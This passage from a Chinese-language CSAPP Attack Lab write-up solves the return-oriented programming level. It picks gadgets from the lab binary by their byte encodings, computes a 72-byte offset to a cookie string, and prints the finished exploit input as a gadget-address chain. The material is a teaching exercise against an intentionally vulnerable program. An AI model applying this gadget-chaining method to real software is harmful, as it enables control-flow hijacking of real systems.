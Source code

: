 将 `%edx` 的内容放到 `%ecx` 中，`movl %edx, %ecx` 的指令字节是 `89 d1`。

```x86asm
0000000000401a6e <setval_167>:
  401a6e:   c7 07 89 d1 91 c3       movl   $0xc391d189,(%rdi)
  401a74:   c3                      retq
```
所以这一步的 `gadget` 地址是 `0x401a70`。

将 `%ecx` 的内容放到 `%esi` 中，`movl %ecx %esi` 的指令字节是 `89 ce`。

```x86asm
00000000004019e8 <addval_113>:
  4019e8:   8d 87 89 ce 78 c9       lea    -0x36873177(%rdi),%eax
  4019ee:   c3                      retq
```
所以这一步的 `gadget` 地址是 `0x4019ea`。

将栈顶 + 偏移量得到字符串的首地址传送到 `%rax`，`lea (%rdi,%rsi,1),%rax` 的地址是 `0x4019d6`。

```x86asm
00000000004019d6 <add_xy>:
  4019d6:   48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:   c3                      retq
```

将字符串首地址 `%rax` 传送到 `%rdi`，`movq %rax, %rdi` 的指令字节是 `48 89 c7`。

```x86asm
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      retq
```
所以这一步的 `gadget` 地址是 `0x4019a2`。

![](https://res.cloudinary.com/ouyangsong/image/upload/q_auto/1543746077.png "栈")

`cookie` 字符串的偏移量是 9 条指令，也就是 72 个字节。

得到 `level5` 的文件如下：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
ea 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```
